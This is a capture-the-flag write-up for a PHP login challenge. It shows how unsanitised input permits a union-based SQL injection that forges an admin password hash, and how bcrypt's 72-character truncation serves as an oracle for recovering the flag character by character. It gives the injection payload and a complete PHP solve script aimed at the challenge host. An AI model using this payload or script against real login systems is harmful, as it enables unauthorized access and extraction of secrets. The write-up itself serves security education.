 This challenge presents a login page where users authenticate using a username and password. However, after inspecting the source code (index.php), we can identify two key vulnerabilities that allow us to extract the flag.
1. SQL Injection to Bypass Authentication & Extract Magic Value

The login form directly interpolates user input into an SQL query:

$res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = '$username'", true);

Since the input is not sanitized, we can perform union-based SQL injection to log in as admin by injecting a password hash we control. This allows us to retrieve the magic value embedded in the response.

We use the following SQL payload:

' UNION SELECT 'admin', '<bcrypt_hash>'; -- 

Where <bcrypt_hash> is the hash of a known password like peko. This tricks the server into thinking the admin user has this password, allowing us to retrieve the magic value from the response.
2. Exploiting Bcrypt Truncation to Recover the Flag

PHP's password_hash() function, when using Bcrypt, truncates passwords to 72 characters. This means that if the server appends the flag to the password internally, it will not affect verification if the input is already 71 characters long.

We can abuse this behavior to perform oracle-based brute force extraction of the flag, character by character:

    Construct a base password of 71 characters ('a' * 71).

    Append a candidate flag character and hash it with Bcrypt.

    Inject this hash into the database using SQLi.

    Attempt to log in and check if authentication succeeds.

    If the login is successful, the guessed character is correct.

This process is repeated iteratively to recover the full flag.
Solve Script

We automate this attack using solve.php, which:

    Performs SQLi to inject a known password hash for the admin user.

    Extracts the magic value from the HTML comment.

    Uses a Bcrypt truncation-based oracle to brute-force the flag one character at a time.

<?php

$target = 'http://login.chal.imaginaryctf.org/';

function do_login($target, $username, $password) {
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $target);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_POST, true);
    curl_setopt($ch, CURLOPT_POSTFIELDS, [
        'username' => $username,
        'password' => $password
    ]);
    $res = curl_exec($ch);
    curl_close($ch);
    return $res;
}

function get_magic($target) {
    $pwd = 'peko';
    $h = password_hash($pwd, PASSWORD_BCRYPT, ['cost' => 4]);
    $inj = "' union select 'admin', '$h'; -- ";
    $res = do_login($target, $inj, $pwd);
    return explode(' -->', explode('<!-- magic: ', $res)[1])[0];
}

$magic = get_magic($target);

function oracle($pad, $h) {
    global $target, $magic;
    $t = $target . "?$magic=1";
    $inj = "' union select 'admin', '$h'; -- ";
    $res = do_login($t, $inj, $pad);
    return strpos($res, 'Welcome admin!') !== false;
}

$known_flag = '';
$charset = '{_}?!abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';

while (true) {
    $pad = str_repeat('a', 71 - strlen($known_flag));
    foreach (str_split($charset) as $c) {
        $h = password_hash($pad . $known_flag . $c, PASSWORD_BCRYPT, ['cost' => 4]);
        if (oracle($pad, $h)) {
            $known_flag .= $c;
            break;
        }
    }
    echo "Current Flag: $known_flag\n";
    if (strlen($known_flag) >= 32) break; // Stop if flag length is reached
}

?>

